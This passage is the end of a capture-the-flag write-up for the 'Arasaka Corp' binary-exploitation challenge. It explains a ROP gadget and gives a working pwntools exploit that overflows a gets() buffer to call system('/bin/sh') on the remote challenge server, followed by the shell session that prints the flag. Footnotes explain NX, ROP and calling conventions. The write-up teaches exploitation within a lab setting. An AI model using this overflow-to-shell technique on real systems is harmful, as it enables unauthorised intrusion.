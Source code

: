 ```sh
  0x004014e3                 5f  pop rdi
  0x004014e4                 c3  ret
[0x00401150]>
```
r2 has a ropgadet finder that I used to find `pop rdi`. What `pop` does is get the next value from the stack, and put it into the 1st argument. With this gadget, we can put the string address into `rdi`. \
now that `rdi = "/bin/sh"`, all we need is to call `system()`. \
final script
```py
from pwn import *

#io = process("./ArasakaCorp");
io = remote("nc.lagncra.sh", 8000)

buf = b'A'*16
pop_rdi = p64(0x004014e3)
bin_sh_str = p64(0x00402814)
system_addr = p64(0x004010e0)

payload = buf + pop_rdi + bin_sh_str + system_addr

io.sendline(payload)
io.sendline("")

io.interactive()
```
You can also find this in [exp.py](./exp.py)
```sh
└─$ python3 exp.py
[+] Opening connection to nc.lagncra.sh on port 8000: Done
/mnt/d/CTFs/lnc/3.0/pwn/Arasaka Corp/exp.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("")
[*] Switching to interactive mode

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⡶⣶⣶⣦⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡾⠛⠉⢠⣶⣿⣿⣶⣄⠉⠛⢿⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣿⠋⠀⠀⠀⣿⣿⣿⣿⣿⣿⠀⠀⠀⠙⣿⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⢣⣴⣶⣶⣦⡹⢿⣿⣿⡿⢏⣴⣶⣶⣦⡜⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡏⣿⣿⣿⣿⣿⣿⠀⣿⡿⠀⣿⣿⣿⣿⣿⣿⢸⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢿⡇⠻⣿⣿⣿⣿⣿⡀⣽⣿⢀⣽⣿⣿⣿⣿⠟⢸⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
  ⠀⠀⠀⠀⠀⠀⠀⠸⣿⡀⠈⠉⠉⠉⠻⣿⣿⣿⣾⠟⠁⠉⠉⠁⠀⣾⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣷⡀⠀⠀⠀⠀⠈⣿⣿⠁⠀⠀⠀⠀⢀⣾⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢿⣦⣄⠀⠀⠀⣽⣷⠀⠀⠀⣠⣴⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⢷⣶⣾⣷⣶⡶⠿⠛⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣀⣀⡀⠀⠀⣀⣀⣀⣀⣀⣀⠀⠀⠀⣀⣀⣀⠀⠀⠀⠀⠀⣀⣀⠀⠀⠀⠀⣀⣀⡀⠀⢀⣀⡀⠀⢀⣀⣀⣀⣀⣀⡀⠀⠀
⣴⣿⠟⠛⢿⣦⡀⣿⡟⠛⠛⠛⣿⣷⣰⣿⠟⠛⢿⣷⡄⢠⣠⣤⡻⠻⠗⠀⣴⣿⠟⠛⢿⣦⣸⣿⣧⣾⡿⢛⣿⡿⠟⠻⣿⣦⠀
⣿⡇⠀⠀⠀⣿⡇⣿⣷⣄⡀⠀⠉⠁⣿⣇⠀⠀⠀⣿⡇⣀⡉⠻⢿⣶⣄⡰⣿⣇⠀⠀⠀⣿⡿⣿⣿⣅⡀⢸⣿⡀⠀⠀ ⣿⠀
⠙⠿⣷⣶⣦⣿⡇⠛⠋⠛⢿⣷⣤⡀⠙⠿⣷⣶⡦⣿⡇⢿⣷⣶⣶⣿⣿⣿⠙⠿⣷⣶⡆⣿⡟⠛⠋⠻⢿⣶⣿⣿⣷⣶⣼⣿⡁

Arasaka Corp. Mainframe System v1.0
Username:
Password:

Hello AAAAAAAAAAAAAAAA\xe3@!
Under maintenance.
$ ls
ArasakaCorp
flag
ynetd
$ cat flag
LNC2023{aR@sA$@_c0rP_D0wNF@LL_2@89}$
$
```

[^1]: NX stands for No eXecute, which means we are not able to put code on the stack, and run it. https://en.wikipedia.org/wiki/NX_bit
[^2]: ROP, or Return Oriented Programming is using parts of code in the program(called gadgets) that allows the attacker to do things. https://ctf101.org/binary-exploitation/return-oriented-programming/
[^3]: `gets` reads until a EOF or newline is received. This can lead to buffer overflows when the amount of values that `gets` is reading is more then the buffer allocated. This can lead to it writing into other variables, and addresses.
[^4]: segfaults can happen in multiple ways, like when the `instruction pointer` of the program is pointing into NX space, or when trying to write into invalid/disallowed memory. https://en.wikipedia.org/wiki/Segmentation_fault
[^5]: It is vulnerable to a format string attack: https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
[^6]: In all honesty, I actually tried to do it but failed pretty badly. However I found a simpler way to solve the challenge, which demostrates the idea of ROP pretty well
[^7]: Registers include `%rdi`, `%rsi`, `%rdx`, `%rcx`, `%r8`, and `%r9`. https://en.wikipedia.org/wiki/X86_calling_conventions#List_of_x86_calling_conventions (look for `x86-64` arch on Linux). The world of calling conventions is massive and wild :sweat_smile: